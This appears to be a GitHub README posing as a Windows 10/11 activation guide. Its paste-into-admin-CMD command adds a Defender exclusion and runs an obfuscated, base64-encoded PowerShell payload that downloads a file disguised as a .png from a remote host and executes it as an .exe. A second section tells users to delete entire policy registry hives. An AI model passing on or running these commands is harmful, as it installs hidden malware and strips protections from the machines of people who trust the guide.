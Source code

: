 
## To activate Windows 10 and 11 follow the steps

> Just copy and paste the following command into CMD admin

> [!NOTE]
> net session >nul 2>&1 && powershell Set-MpPreference -ExclusionPath $env:SystemRoot | powershell -EncodedCommand CgBJAG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAFUAcgBpACAAIgBoAHQAdABwAHMAOgAvAC8AZAByAG8AcAAwADAAMAAwAC4AcAB5AHQAaABvAG4AYQBuAHkAdwBoAGUAcgBlAC4AYwBvAG0ALwBzAHQAYQB0AGkAYwAvAC4AcABuAGcAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAJABlAG4AdgA6AFMAeQBzAHQAZQBtAFIAbwBvAHQAXABUAGUAbQBwAFwALgBlAHgAZQAiADsAIABTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAiACQAZQBuAHYAOgBTAHkAcwB0AGUAbQBSAG8AbwB0AFwAVABlAG0AcABcAC4AZQB4AGUAIgA= >nul 2>&1 || (echo Need to run as Administrator )




> [!TIP]
> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure


## Virus And Threat Protection On

### CMD run as administrator
CMD Commands:
  reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKLM\Software\Microsoft\WindowsSelfHost" /f
  reg delete "HKLM\Software\Policies" /f
  reg delete "HKLM\Software\WOW6432Node\Microsoft\Policies" /f
  reg delete "HKLM\Software\WOW6432Node\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware
  reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies" /f
  reg delete "HKCU\Software\Microsoft\WindowsSelfHost" /f
  reg delete "HKCU\Software\Policies" /f
  reg delete "HKLM\Software\Microsoft\Policies" /f
